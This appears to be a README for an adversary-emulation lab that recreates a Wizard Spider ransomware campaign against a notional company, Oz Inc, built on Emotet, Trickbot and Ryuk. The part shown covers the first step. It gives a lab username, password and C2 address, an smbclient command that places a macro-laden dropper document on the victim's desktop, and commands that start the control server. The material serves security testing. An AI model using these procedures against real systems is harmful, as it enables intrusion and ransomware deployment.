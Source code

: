 # Scenario Overview

This scenario emulates Wizard Spider conducting a ransomware attack against a notional organization (Oz Inc).

This scenario emulates Wizard Spider TTPs based on  several malware specimens either used by or associated with the Wizard Spider actors:

1. Emotet
2. Trickbot
3. Ryuk

---

## Step 1 - Initial Compromise

:microphone: `Voice Track:`

Step1 emulates Wizard Spider gaining initial access using a Microsoft Word document.

The word document contains [obfuscated VBA macros](Emotet_Dropper.) that downloads and executes a malicious DLL.

The [malicious DLL](Emotet.) establishes a C2 session with the adversary control server.

The malicious DLL is based on Emotet.

```
Compromised user info:

User:	judy@oz.local

System: 10.0.0.7 / dorothy

C2:	192.168.0.4:80 HTTP; traffic is AES-encrypted with symmetric key and base64 encoded
```

*Note: the document is pre-positioned in the environment.*

*We do not emulate sending the document to target, as our focus is evaluating their product against post-initial-access TTPs.*

---

### :biohazard: Procedures

Upload the Emotet-dropper document to Dorothy's desktop:

```bash
smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop\ChristmasCard.docm;" "Passw0rd!"
```

Start the control server from your terminator terminal.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```
